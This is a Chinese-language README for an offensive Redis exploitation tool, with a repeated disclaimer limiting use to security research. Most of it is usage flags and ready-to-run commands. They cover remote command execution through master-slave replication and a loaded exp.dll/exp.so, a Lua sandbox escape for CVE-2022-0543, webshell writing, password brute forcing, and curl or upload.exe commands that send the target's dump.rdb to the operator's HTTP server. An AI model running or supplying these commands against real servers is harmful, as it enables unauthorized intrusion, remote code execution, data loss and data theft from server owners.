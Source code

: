 ## Redis 漏洞利用工具

帮助：`-h`

```

██████╗ ███████╗██████╗ ██╗███████╗    ███████╗██╗  ██╗██████╗
██╔══██╗██╔════╝██╔══██╗██║██╔════╝    ██╔════╝╚██╗██╔╝██╔══██╗
██████╔╝█████╗  ██║  ██║██║███████╗    █████╗   ╚███╔╝ ██████╔╝
██╔══██╗██╔══╝  ██║  ██║██║╚════██║    ██╔══╝   ██╔██╗ ██╔═══╝
██║  ██║███████╗██████╔╝██║███████║    ███████╗██╔╝ ██╗██║
╚═╝  ╚═╝╚══════╝╚═════╝ ╚═╝╚══════╝    ╚══════╝╚═╝  ╚═╝╚═╝

Usage of main.exe:
  -brute
        爆破 Redis 密码
  -c string
        执行命令 (default "whoami")
  -cli
        执行 Redis 命令
  -console
        使用交互式 shell
  -down
        开启 Http Sever
  -exec
        主从复制-命令执行
  -lfile string
        需要上传的文件名
  -lhost string
        本地 IP
  -lport string
        本地端口 (default "21000")
  -lua
        Lua沙盒绕过命令执行 CVE-2022-0543
  -p string
        设置 Http Sever 端口 (default "9001")
  -pwd string
        设置密码
  -pwdf string
        设置密码字典
  -rfile string
        保存在目标的文件名
  -rhost string
        目标 IP
  -rpath string
        保存在目标的目录 (default ".")
  -rport string
        目标端口 (default "6379")
  -shell
        备份写 Webshell
  -slaveof
        关闭主从复制
  -so string
        设置 exp.dll | exp.so (default "exp.dll")
  -upload
        主从复制-文件上传
```

```
主从复制命令执行:
RedisExp.exe -rhost 192.168.211.131 -lhost 192.168.211.1 -exec
RedisExp.exe -rhost 192.168.211.131 -lhost 192.168.211.1 -exec -console

Linux:
RedisExp.exe -rhost 192.168.211.131 -lhost 192.168.211.1 -exec -so exp.so
RedisExp.exe -rhost 192.168.211.131 -lhost 192.168.211.1 -exec -console -so exp.so

主从复制文件上传:
RedisExp.exe -rhost 192.168.211.131 -lhost 192.168.211.1 -rfile dump.rdb -lfile dump.rdb -upload

主动关闭主从复制:
RedisExp.exe -rhost 192.168.211.131 -slaveof

Lua沙盒绕过命令执行 CVE-2022-0543:
RedisExp.exe -rhost 192.168.211.131 -lua -console

备份写 Webshell:
RedisExp.exe -rhost 192.168.211.131 -shell

爆破 Redis 密码:
RedisExp.exe -rhost 192.168.211.131 -brute -pwdf ../pass.txt

执行 Redis 命令:
RedisExp.exe -rhost 192.168.211.131 -cli

设置 HttpServer 接收上传的内容:
RedisExp.exe -down
```



### 声明

**本工具仅用于个人安全研究学习。由于传播、利用本工具而造成的任何直接或者间接的后果及损失，均由使用者本人负责，工具作者不为此承担任何责任。**

**本工具仅用于个人安全研究学习。由于传播、利用本工具而造成的任何直接或者间接的后果及损失，均由使用者本人负责，工具作者不为此承担任何责任。**

**本工具仅用于个人安全研究学习。由于传播、利用本工具而造成的任何直接或者间接的后果及损失，均由使用者本人负责，工具作者不为此承担任何责任。**



### 注意

**主从复制会清空数据，主从复制会清空数据，主从复制会清空数据，请注意使用！请注意使用！请注意使用！**

------

**解决：**

1、查看 Redis 信息，查看数据是否保存在 dump.rdb

![](images/1.png)

2、主从复制执行命令：此时数据会被清空

![](images/2.png)

3、下载 dump.rdb 文件回本地，然后再把 dump.rdb 主从复制回去，数据就恢复了。

如果文件不大，可以使用 base64 把文件给编码，然后复制回来给本地解码。

```
Windows：

certutil -encode dump.rdb 1.txt
type 1.txt
```

```
Linux:

base64 dump.rdb
```

![](images/3.png)

如果文件过大，可以通过把 dump.rdb 上传到本地，所以我设置了 httpServer 来接收数据。

Linux 可以使用 curl ，Windows 没有 curl 所以需要自己上传程序来把内容传回来，所以 upload.go 就是用来上传文件回来的

```
Windows:

upload.exe -u 192.168.211.1:9001 -f dump.rdb
```

```
Linux:

curl -F "file=@dump.rdb" http://192.168.211.1:9001
```

![](images/4.png)

![](images/5.png)

![](images/6.png)

4、使用 **主从复制文件上传** 的方式上传回去来恢复数据

```
RedisExp.exe -rhost 192.168.211.131 -lhost 192.168.211.1 -rfile dump.rdb -lfile dump.rdb -upload
```

![](images/7.png)

5、上传 dump.rdb 会卡住，所以需要**主动关闭主从复制**

```
RedisExp.exe -rhost 192.168.211.131 -slaveof
```

![](images/8.png)

![](images/8-2.png)

6、**最好本地搭建对应的环境先测试**



### 主从复制漏洞

命令执行：

- 默认 windows 加载的是 `exp.dll`
- 默认是非交互式 shell

````
Windows:
RedisExp.exe -rhost 192.168.211.131 -lhost 192.168.211.1 -exec
RedisExp.exe -rhost 192.168.211.131 -lhost 192.168.211.1 -exec -console

Linux:
RedisExp.exe -rhost 192.168.211.131 -lhost 192.168.211.1 -exec -so exp.so
RedisExp.exe -rhost 192.168.211.131 -lhost 192.168.211.1 -exec -console -so exp.so
````

![](images/2.png)

文件上传：

```
RedisExp.exe -rhost 192.168.211.131 -lhost 192.168.211.1 -rfile dump.rdb -lfile dump.rdb -upload
```

![](images/7.png)



### 备份写 Webshell

```
RedisExp.exe -rhost 192.168.211.131 -shell
```

![](images/9.png)

### Lua沙盒绕过命令执行 CVE-2022-0543

```
RedisExp.exe -rhost 192.168.211.130 -lua -console
```

![](images/10.png)


### 爆破 Redis 密码

```
RedisExp.exe -rhost 192.168.211.131 -brute -pwdf pass.txt
```

![](images/11.png)


### 参考

本工具基于大量优秀文章和工具才得以~~编写~~ 抄写完成，非常感谢这些无私的分享者！

- https://github.com/zyylhn/redis_rce
- https://github.com/0671/RabR
- https://github.com/r35tart/RedisWriteFile

 

